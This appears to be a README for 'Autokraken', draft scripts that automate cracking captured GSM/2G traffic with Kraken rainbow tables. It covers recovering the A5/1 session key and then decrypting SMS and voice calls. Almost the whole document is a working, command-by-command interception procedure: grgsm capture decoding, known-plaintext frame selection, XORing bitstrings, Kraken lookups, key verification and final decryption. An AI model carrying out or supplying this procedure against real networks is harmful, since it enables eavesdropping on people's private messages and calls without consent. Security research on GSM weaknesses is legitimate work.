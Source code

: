 # Autokraken

_Warning: those are currently dirty drafts.  It works for us but would need to be heavily reviewed to work any other platform._

A set of scripts to automate the cracking of captured GSM/G2 network traffic with Kraken, and to extract SMS and voice calls out of it.  This is not frequency hopping capable.

## Requirements

Few command line utilities

        which sed
        which awk
        which grep
        which cut
        which wc

Few packages for stage 1

        apt install python3 tcpdump tshark gr-gsm -y

Optionally `gsmframedecoder` when dealing with SI5,6 instead of idling frames, but then you would also need the legacy Airprobe code to get the HEX version of the bursts

And of course Kraken with ready to serve rainbow table indexes

## Introduction

Check that you don't see much after Cipher Mode Command and get the bitstrings at once

        wireshark -k -Y 'gsmtap' -i lo &
	grgsm_decode --cfile=$cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--print-bursts > $cfile.${slot}S

## Stage 1 - define your known plain-text

_requires GR-GSM and a cfile_

Seeking for idle frames

	cd stage1/
        cfile=/root/capture/66.hrf.cfile
        arfcn=66

Extract the timeslot (TODO: and subchannel) from Immediate Assignments

        ./json0C $cfile $arfcn
	ls -lF ${cfile}.0C.json

        ./parse.py 0C ${cfile}.0C.json

        slot=1

Look for idling frames around the Ciphering Mode Command

	./jsonXS $cfile $arfcn $slot
	./parse.py XS $cfile.${slot}S.json

	plainframe=816538
	plainframe=816487

Produce the burst bitstrings with frame references

        ./bitstringsXS $cfile $arfcn $slot
        ls -lF $cfile.${slot}S

## Stage 2 - define your target cipher-text

_requires Kraken and the bitstring file_

	cd ../stage2/
	cfile=/root/capture/66.hrf.cfile
	slot=1
	plainframe=816538

Tune your path against Kraken and Utilities

        vi feedcrack.conf

	kraken=/root/KRAKEN/kraken

XOR plain bitstrings with cipher bitstrings

	#./getemptyframeplain $cfile.${slot}S $plainframe
	#./getemptyframecipher $cfile.${slot}S $plainframe
	./feedemptyframe $cfile.${slot}S $plainframe
	ls -lF /root/capture/66.hrf.cfile.1S.816538.emptyframe*

Feed those into Kraken interactivelty

	ls -lF /dev/sdb2
	ls -lF /root/KRAKEN/kraken/indexes/
	head /root/capture/66.hrf.cfile.1S.816538.emptyframe234

	screen -S KRAKEN
	cd /root/KRAKEN/kraken/Kraken/
	./kraken ../indexes

	crack <xored bitstring>

## Stage 2 semi-automated

        cd /root/KRAKEN/kraken/Kraken/
        ./kraken ../indexes < /root/capture/66.hrf.cfile.1S.816538.emptyframe234

## Stage 2 automated

	./crack $cfile.${slot}S $plainframe

## Stage 3 - verify the key

Tune the hardcoded path against Utilities

	cd /root/KRAKEN/autokraken/stage3/
	vi feedkc

	utilspath=/root/KRAKEN/kraken/Utilities

reach back to the previous frame number and xored bitstring to feed the key check

	./feedkc <xored bitstring> /root/capture/66.hrf.cfile.1S.816538.emptyframe1234

COPY/PASTE THE KEY AND @ E.G.

	/root/KRAKEN/kraken/Utilities/find_kc <FOUND KEY> <BITOPS> <BURST FRAME NUMBER> <PREV BURST FRAME NUMBER> <PREV BURST XORED BITSTRING>

## Conclusion

You can now sniff into the ciphered text

	grgsm_decode --cfile=$cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--a5=1 --kc=KEY-HERE

## Resources

GSM Cracking: SMS w/ Kraken – Software Defined Radio Series #16
https://www.crazydanishhacker.com/gsm-cracking-sms-kraken-software-defined-radio-series-16/

